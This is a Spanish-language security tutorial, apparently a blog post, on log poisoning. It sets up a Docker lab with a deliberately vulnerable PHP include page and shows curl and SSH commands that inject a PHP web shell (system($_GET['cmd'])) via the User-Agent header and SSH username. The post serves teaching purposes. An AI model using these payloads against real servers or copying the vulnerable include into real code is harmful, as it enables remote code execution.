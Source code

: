 ```yaml
---
title: Log Poisoning
date: 2025-06-16 08:30:00 -0300
categories: [Web Security, Vulnerabilidades]
tags: [log poisoning, web, inyeccion, seguridad-web, fundamentos, archivos-log]
description: >-
 Análisis técnico de la vulnerabilidad Log Poisoning: vectores de ataque, escenarios comunes y medidas de mitigación.
image:
  path: /assets/imgs/LFI_1.jpg

  alt: Inyección en logs
toc: true
comments: false
---
```


# ¿Qué es Log Poisoning?
<br>
**Log Poisoning** es una vulnerabilidad que permite a un atacante inyectar contenido malicioso dentro de los archivos de registro (*logs*) de una aplicación o servidor. Esto ocurre cuando las entradas del usuario (como cabeceras HTTP, parámetros GET/POST, etc.) se almacenan directamente en los logs sin validación ni sanitización.

---

## ¿Cómo se explota?

El atacante aprovecha cualquier punto del sistema que registre actividad: formularios, agentes de usuario, rutas inválidas o errores controlados. Mediante estos vectores, puede introducir código HTML, JavaScript, comandos del sistema o incluso fragmentos PHP si el entorno lo permite.

## Laboratorio con docker
Usando docker junto con el servicio SSH para simular un ataque

crear un contenedor con la ultima version de ubuntu disponible:

```sh
docker pull ubuntu:latest
```


```sh
docker run -dit -p 80:80 -p 22:22 --name logPoisoning ubuntu
```

```sh
docker exec -it logPoisoning bash
```

una vez dentro del contenedor se deben instalar un par de dependencias

```sh
apt update
apt install apache2 ssh nano php -y
```

Levantando los servicios

```sh
service apache2 start
service ssh start
```
Cambiamos el index.html por un index.php con el script de prueba
 
```sh
cd /var/www/html/
rm -rf index.html
```

```php
<?php

    include($_GET['filename']);

?>

```
una vez confirmado el funcionamiento del servidor deberiamos darle permisos a el directorio apache2 para poder forzar esta vulnerabilidad.

```sh
chown www-data:www-data -R apache2/
```

## ¿Que es el User-Agent? 

El User-Agent es una cabecera HTTP que identifica al cliente que realiza una petición a un servidor web. Informa sobre el navegador, sistema operativo, dispositivo y otros detalles del entorno del usuario.


## Ejemplo de explotacion usando el contenedor de docker.
Usando el User-Agent para inyectar codigo php

algo interesante para intentar hacer es ver que nos d

```sh
curl -s -X GET "http://localhost/probando" -H "User-Agent: <?php phpinfo();?>"
```

> phpinfo() es usado para verificar si el código fue interpretado (muestra información del entorno PHP).
{: .prompt-info}

## Inyeccion de Comandos

```sh
curl -s -X GET "http://10.88.0.2" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
```

![](../assets/imgs/LP.png)

## Envenenando logs en SSH
```sh
ssh '<?php system($_GET["cmd"]); ?>'@ip-victima
```


## ¿ Como es posible este suceso?

![](../assets/imgs/meme1.jpeg)

El servidor guarda entradas (como User-Agent, Referer, etc.) en archivos .log.
<br>
Si el contenido del log se incluye luego en un script PHP vulnerable (por ejemplo, por medio de include() en un LFI), el código se ejecuta.

